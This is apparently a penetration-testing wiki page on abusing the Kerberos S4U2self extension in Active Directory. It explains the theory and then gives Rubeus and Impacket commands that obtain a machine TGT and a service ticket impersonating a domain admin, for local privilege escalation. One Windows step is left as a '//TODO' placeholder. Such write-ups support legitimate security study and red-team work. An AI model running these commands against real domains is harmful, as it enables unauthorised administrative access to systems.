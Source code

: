 # 🛠️ S4U2self abuse

## Theory

Kerberos delegations allow services to access other services on behalf of domain users.

The "Kerberos" authentication protocol features delegation capabilities explained [here](../delegations/). Kerberos delegations can be abused by attackers to obtain access to valuable assets and sometimes even escalate to domain admin privileges. Regarding [constrained delegations](constrained.md) and [rbcd](rbcd.md), those types of delegation rely on **Kerberos extensions called S4U2Self and S4U2Proxy**.

**Service for User to Self (S4U2self)** allows a service to obtain a Service Ticket, on behalf of a user (called "principal"), to itself. This extension can be used by any account that has at least one SPN. Depending on the service and principal configurations, the resulting Service Ticket may or may not be forwardable but either way, the ticket can be used for authentication.

Last but not least, S4U2self can be used to produce a Service Ticket to oneself on behalf of another domain user, even if that user is "sensitive for delegation" or member of the Protected Users group. Consequently, this allows attackers to do some privilege escalation.

## Practice

In order to obtain local admin rights on the target machine, the attackers needs to conduct two major steps.

### Obtain a TGT

Obtaining a usable TGT for the machine account, either by knowing one of the machine account's Kerberos keys (RC4, AES128, AES256) or by using [the tgtdeleg trick](http://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/) locally from the machine is the first step to conduct the privilege escalation.&#x20;

The "tgtdeleg" trick can be conducted with [Rubeus](https://github.com/GhostPack/Rubeus) (C#) from the machine as follows.

```powershell
.\Rubeus.exe tgtdeleg /nowrap
```

Alternatively, if the machine account credentials are known, the TGT can be obtained as follows.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Impacket](https://github.com/SecureAuthCorp/impacket)'s [getTGT.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py) (Python) script can be used for the purpose.

```bash
getTGT.py -dc-ip "domaincontroller" -hashes :"NThash" "domain"/"machine$"
```
{% endtab %}

{% tab title="Windows" %}
From Windows machines, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for that purpose

```powershell
//TODO
```
{% endtab %}
{% endtabs %}

### Obtain a Service Ticket

The TGT can then be used along with S4U2self to obtain a Service Ticket impersonating another domain user on the machine.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Impacket](https://github.com/SecureAuthCorp/impacket)'s getST.py (Python) script can be used for the purpose.&#x20;

```bash
export KRB5CCNAME="machine$.ccache"
getST.py -self -impersonate 'DomainAdmin' -spn 'host/machine.domain.local' -k -no-pass -dc-ip 'domaincontroller' 'domain.local'/'machine$'
```
{% endtab %}

{% tab title="Windows" %}
From Windows machines, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for that purpose

```powershell
.\Rubeus.exe s4u /self /nowrap /impersonateuser:"DomainAdmin" /ticket:"base64ticket"
```
{% endtab %}
{% endtabs %}

Once a Service Ticket is received, it can be used with [pass-the-ticket](../ptt.md)/[pass-the-cache](../ptc.md) to obtain access to oneself as the "DomainAdmin" (the user can be changed in the request. Attackers should select a domain user which has local admin rights on the machine).

## Resources

{% embed url="https://exploit.ph/revisiting-delegate-2-thyself.html" %}

{% embed url="https://cyberstoph.org/posts/2021/06/abusing-kerberos-s4u2self-for-local-privilege-escalation" %}
